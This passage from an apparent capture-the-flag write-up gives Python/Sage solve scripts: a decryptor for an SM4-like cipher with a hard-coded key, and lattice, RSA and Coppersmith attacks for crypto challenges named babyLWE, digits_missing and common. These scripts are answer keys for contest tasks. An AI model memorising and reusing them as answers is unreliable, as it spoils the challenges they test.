    res = ((v3 >> 9) | (v3 << 23)) ^ v3 ^ ((v3 >> 19) | (v3 << 13))
    return res & 0xffffffff


def get_bytes(x):
    return [x & 255, x >> 8 & 255, x >> 16 & 255, x >> 24]


FK = [0xA3B1BAC6, 0x56AA3350, 0x677D9197, 0xB27022DC]

CK = [
    0x00070e15, 0x1c232a31, 0x383f464d, 0x545b6269,
    0x70777e85, 0x8c939aa1, 0xa8afb6bd, 0xc4cbd2d9,
    0xe0e7eef5, 0xfc030a11, 0x181f262d, 0x343b4249,
    0x50575e65, 0x6c737a81, 0x888f969d, 0xa4abb2b9,
    0xc0c7ced5, 0xdce3eaf1, 0xf8ff060d, 0x141b2229,
    0x30373e45, 0x4c535a61, 0x686f767d, 0x848b9299,
    0xa0a7aeb5, 0xbcc3cad1, 0xd8dfe6ed, 0xf4fb0209,
    0x10171e25, 0x2c333a41, 0x484f565d, 0x646b7279
]

K = [0] * 32


def setkey(key):
    global CK, K
    tmp = [0] * 4
    tmp[0] = int.from_bytes(key[:4], 'big') ^ FK[0]
    tmp[1] = int.from_bytes(key[4:8], 'big') ^ FK[1]
    tmp[2] = int.from_bytes(key[8:12], 'big') ^ FK[2]
    tmp[3] = int.from_bytes(key[12:16], 'big') ^ FK[3]
    for v3 in range(32):
        tmp.append(tmp[v3] ^ sub_162510(CK[v3] ^ tmp[v3 + 1] ^ tmp[v3 + 2] ^ tmp[v3 + 3]))
        K[v3] = tmp[-1]


setkey(b"Thisisinsteresth")

base64 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/'

enc_ = 'N25IKJBC5IyHav8+ZA3aqm=='
enc = ''
for i in range(0, len(enc_), 2):
    enc += enc_[i + 1] + enc_[i]
raw = []
for i in range(0, len(enc), 4):
    t = 0
    for j in range(4):
        u = base64.find(enc[i + j])
        if u != -1:
            t |= (u - 32) % 64 << (3 - j) * 6
    for j in range(3):
        raw.append(t >> (2 - j) * 8 & 255)
raw = bytes(raw)[:-2]

s = raw[::-1]
v5 = [0] * 36
v5[32] = int.from_bytes(s[:4], 'little')
v5[33] = int.from_bytes(s[4:8], 'little')
v5[34] = int.from_bytes(s[8:12], 'little')
v5[35] = int.from_bytes(s[12:16], 'little')
for v6 in range(31, -1, -1):
    v5[v6] = sub_162740(v5[v6 + 4], v5[v6 + 1], v5[v6 + 2], v5[v6 + 3], K[v6])
res = ''
for i in range(4):
    res += hex(v5[i])[2:]
print(bytes.fromhex(res))
```

## Crypto
### babyLWE
简单LWE
```python
# ((A_row) * s + e mod p == R), A_row, R
q = 8934325385505568130914092337950620590424921674062792756625169144539462888362199042365894202712873706261308891694743761726859424971637596576879385466842113
L = ...
matrix_values = []
result = []
for row in L:
    matrix_values.append(list(row[0]))
    result.append(row[1])
    
from sage.modules.free_module_integer import IntegerLattice 
def CVP(lattice, target):
    gram = lattice.gram_schmidt()[0]
    t = target
    for i in reversed(range(lattice.nrows())):
        c = ((t * gram[i]) / (gram[i] * gram[i])).round()
        t -= lattice[i] * c 
    return target - t

row = 64
column = 32
prime = q
A = matrix(ZZ, row + column, row)
for i in range(row):
    A[i, i] = prime
for x in range(row):
    for y in range(column):
        A[row + y, x] = matrix_values[x][y]
lattice = IntegerLattice(A, lll_reduce=True) 
target = vector(ZZ, result)
res = CVP(lattice.reduced_basis, target) 
print("Closest Vector: {}".format(res))
R = IntegerModRing(prime)
M = Matrix(R, matrix_values) 
flag = M.solve_right(res)

flag = ''.join([chr(e) for e in flag])
print('flag{'+flag[:8]+'-'+flag[8:8+4]+'-'+flag[12:12+4]+'-'+flag[16:16+4]+'-'+flag[20:]+'}')
```
### digits_missing

- 已知dp,dq恢复b,已知b用大步小步恢复e1+e2,然后爆破出a，正常解密出c
- 已知a,b,c爆破两位解小根求出剩下的bits还原flag
```python
from Crypto.Util.number import *
p,q,dp,dq,c1,c2,c3,c4 = (8382966525071151698262628267275489457971224290590873867727915535927312307311956307551149189300182989333013935655211655529925132411691657260258869508804313, 13231316607868850028585502250298859978013233085196957148104995708992822025364446566130972567701504593026505068632768362550801211814163933912255328539537723, 4067877656564669659543760514513413762600029662578031197203890573477885856378157540714933235670288321867161057928264104966619462726565381044086674221014659, 6004361537525328812762969053781706854171133673372624832186839843032513202884053459142901947162933610667193674264250916187228008217077058929012656699504497, 38397448558523881233721002242917921105790055508230344684561704998430579846670372300356607626204045854201198058077815583675676500606555609337167668179484784450751296367619004463956197781552892422289620682792080907989026498085643822103827978663027913860208240015087765207584894533290742944611010292156585799528, 9293740616919651290743915278915634681944447242805674628334470020808793392466553176623835005712019260995187936507898786236898327839822675764540430207940005861627115433547287919082927123714333465133025124727793549393255518141976240557890703060264319347097045547347029682847510870341798168171395861668029718784, 38382081159296476109104108461214163284026696151534431467354021394793986732221160067886039593454656019105255411198083909023105594609208767055542183327062330413457521684010109887595139351840134623734746082813849903432191987908523702479583480117597134565072756157834275180065308264765993188104742917297030572634, 34680773052485717945183632984833936168523378280008321729763797138119920502573428448910298675257493491999034200590497587738988700372040283904876958974451386222178704132690394313697538708272089545444088374509793167763676764154581526663746518713292464343040640311845999212518230127807665231893595619526453840378)

# p1
q_inv = inverse_mod(q, p)
h = (q_inv * (int(pow(c1, dp, p)) - int(pow(c1, dq, q)))) % p
b = (int(pow(c1, dq, q)) + h * q) % (p*q)
m1, m2 = b >> 256, b & 2 ** 256 - 1
# p2
n = p*q
R = IntegerModRing(n)
t = R(m1+m2)
c2 = R(c2)
e1_e2 = bsgs(t, c2, (0, 2^32))
assert pow(m1+m2, e1_e2, n) == c2

# p3
import string
table = (string.digits + string.ascii_lowercase)
solved = 0
for x1 in table:
    if solved == 1:
        break
    for x2 in table:
        if solved == 1:
            break
        for x3 in table:
            if solved == 1:
                break
            for x4 in table:
                e1 = bytes_to_long((x1+x2+x3+x4).encode())
                e2 = int(1741330544) - e1
                a = e1 * (2**32) + e2
                if pow(a,a,n) == c3:
                    solved = 1
                    print(a)
                    break
                a = e2 * (2**32) + e1
                if pow(a,a,n) == c3:
                    solved =1
                    print(a)
                    break
# p4
dc = inverse_mod(0x10001, (p-1)*(q-1))
c = pow(c4, dc, p*q)
prefix = long_to_bytes(a) + long_to_bytes(b) + long_to_bytes(c)

N = 58384589869640422273005654932681583743232961990212450594363560265734928549866255209481676867375566718286639305322069015048495370286587919688196690440358334646646484795773027916518640456501086389991720959257439270975073735950165776699430837630515783866613092943290398381140903324682642705202472028883851524557
C = 37829500553211613944638254139258281975978988021312524792856014799302163184105088773128220302285237544926785393180851843202600115576182238003511169079668287018782356834793536051933696897058399979673907905528456581611489457305899555754995771959470962690133733330215772719377516818080392843873591604897609551350
F.<x> = Zmod(N)[]
solved = 0
for s1 in table:
    if solved == 1:
        break
    for s2 in table:
        pre = prefix + (s1 + s2).encode()
        f = ((x + bytes_to_long(pre)* 2**112)^5 - C).monic()
        try:
            root = f.small_roots(beta=0.45, X=2^112)[0]
            suffix = long_to_bytes(root)
            flag = b'flag{'+long_to_bytes(a)+b'-'+long_to_bytes(c)[:4]+b'-'+long_to_bytes(c)[4:]+b'-'+(s1+s2).encode()+suffix[:2]+b'-'+suffix[2:]+b'}'
            print(flag)
            solved = 1
            break
        except:
            pass
```

### common
参考2020 De1ctf easyRSA：https://zhuanlan.zhihu.com/p/139566401
直接改个数就能跑了。。
``` python
from Crypto.Util.number import *
e1 =  28720970875923431651096339432854172528258265954461865674640550905460254396153781189674547341687577425387833579798322688436040388359600753225864838008717449960738481507237546818409576080342018413998438508242156786918906491731633276138883100372823397583184685654971806498370497526719232024164841910708290088581
e2 =  131021266002802786854388653080729140273443902141665778170604465113620346076511262124829371838724811039714548987535108721308165699613894661841484523537507024099679248417817366537529114819815251239300463529072042548335699747397368129995809673969216724195536938971493436488732311727298655252602350061303755611563
N =  159077408219654697980513139040067154659570696914750036579069691821723381989448459903137588324720148582015228465959976312274055844998506120677137485805781117564072817251103154968492955749973403646311198170703330345340987100788144707482536112028286039187104750378366564167383729662815980782817121382587188922253
alpha2 = 727./2048
M1 = N^0.5
M1 = int(M1)
M2 = N^(1+alpha2)
M2 = int(M2)
D = diagonal_matrix(ZZ, [N, M1, M2, 1])
B = Matrix(ZZ, [ [1, -N,   0,  N**2],
                 [0, e1, -e1, -e1*N],
                 [0,  0,  e2, -e2*N],
                 [0,  0,   0, e1*e2] ]) * D

L = B.LLL()
v = Matrix(ZZ, L[0])
x = v * B**(-1)
phi = (x[0,1]/x[0,0]*e1).floor()
c1 =  83539406808372422922487001946316365094376739313551976939966288443272047669312445475911664642143578924596155505175423622357102772382776102902040382301805535194205042940432854922323077690691902267957993158750343851697667113143056211729924929948161366058754965665039935874439731666595500815980288376289056115547
c2 =  25624846123939484810585463333594687611109924302046965883587095859567284996975889660703410882557606913099781654188766329901563400453086340642173459718177104825898913557599491780244347995272949348964205381377189461625790150668367547253735921686253528544380902617420824104569521612578436136561180965584442990904
flag1 = long_to_bytes(pow(c1,inverse(e1,phi),N))
flag2 = long_to_bytes(pow(c2,inverse(e2,phi),N))
print(flag1+flag2)
```

